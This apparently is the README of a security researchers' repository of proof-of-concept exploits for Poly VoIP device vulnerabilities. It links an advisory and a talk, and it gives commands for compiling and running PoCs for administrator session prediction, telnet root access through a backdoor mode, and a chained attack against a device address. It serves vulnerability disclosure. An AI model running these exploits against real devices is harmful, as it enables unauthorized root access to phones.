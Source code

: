 # [MZ-23-01] Poly VoIP Devices

Proof of Concept exploits for vulnerabilities affecting Poly VoIP devices.

A detailed security advisory, including these and other vulnerabilities in Poly VoIP devices, is available at https://modzero.com/en/advisories/mz-23-01-poly-voip/

A beginner-friendly talk about these vulnerabilities and how such vulnerabliities can be found is availabe at https://media.ccc.de/v/37c3-11919-finding_vulnerabilities_in_internet-connected_devices

### CVE-2023-4462: Administrator Session Prediction  
```
# compile it yourself
cd src
gcc -Wall -o poc poc-rand.c
./poc CCX 12345678
# or use the precompiled version
cd bin
./poc-rand CCX 12345678
```

### CVE-2023-4467: Backdoor-Mode Allows Telnet Root Access  
```
# compile it yourself
cd src
gcc -Wall -o poc poc-ta.c -lssl -lcrypto
./poc 123456ffffff 425813540719
# or use the precompiled version
cd bin
./poc-ta 123456ffffff 425813540719
```

### Attack Chain From Our Demo (CVE-2023-4462, CVE-2023-4464, CVE-2023-4465)
```
cd demo
python3 poc.py --device TRIO8800 10.10.10.10
```
## Contact

If you have any questions, don't hesitate to contact us directly.

* [yonk @ mastodon](https://chaos.social/@yonk "yonk on mastodon")
* [parzel @ twitter](https://twitter.com/parzel2 "parzel on twitter")
* [modzero home](https://www.modzero.com "modzero")
* [modzero @ twitter](https://twitter.com/mod0 "modzero on twitter")
* [modzero @ github](https://github.com/modzero/ "modzero on github")